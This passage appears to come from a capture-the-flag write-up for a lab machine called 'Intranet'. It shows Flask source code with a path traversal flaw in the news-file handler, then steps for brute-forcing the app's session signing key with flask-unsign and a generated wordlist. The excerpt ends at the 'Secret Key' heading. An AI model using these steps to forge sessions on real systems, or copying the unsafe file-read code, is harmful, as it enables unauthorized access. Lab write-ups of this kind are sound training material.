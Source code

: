 ```bash
def internal():
        if not session.get(&#34;logged_in&#34;):
                return redirect(&#34;/login&#34;)
        else:
                if request.method == &#34;POST&#34;:
                        news_file = request.form[&#34;news&#34;]
                        news = open(&#34;/opt/news/{}&#34;.format(news_file)).read()
                        return render_template(&#34;internal.html&#34;, news=news)

                return render_template(&#34;internal.html&#34;)


@app.route(&#34;/external&#34;, methods=[&#34;GET&#34;])
def external():
        if not session.get(&#34;logged_in&#34;):
                return redirect(&#34;/login&#34;)
        else:
                templateLoader = jinja2.FileSystemLoader(searchpath=&#34;./templates/&#34;)
                templateEnv = jinja2.Environment(loader=templateLoader)
                t = templateEnv.get_template(&#34;external.html&#34;)
                return t.render()


if __name__ == &#34;__main__&#34;:
        app.run(host=&#34;0.0.0.0&#34;, port=8080, debug=False)
```

<br>
<h2 align="center">Flask Installation</h2>

```bash
(rosana) :~/Intranet# sudo pip3 install flask-unsign
```

<h2 align="center">Wordlist . 100000 to 999999 . mylist.txt</h2>

```bash
(rosana) :~/Intranet for i in $(seq 100000 999999); do echo "secret_key_$i"; done > mylist.txt
```

```bash
(rosana) :~/Intranet# tail -n 4 mylist.txt
secret_key_999996
secret_key_999997
secret_key_999998
secret_key_999999
```

<h2 align="center">JWT from current session . sessioncookie.txt</h2>

```bash
(rosana) :~/Intranet# echo 'eyJsb2dnZWRfaW4iOnRyd********************W5kZXJzIn0.aLDGKA.1smTdr1kBmdozdXsABbPohXWavc' > sessioncookie.txt
```

<h2 align="center">Secret Key</h2>
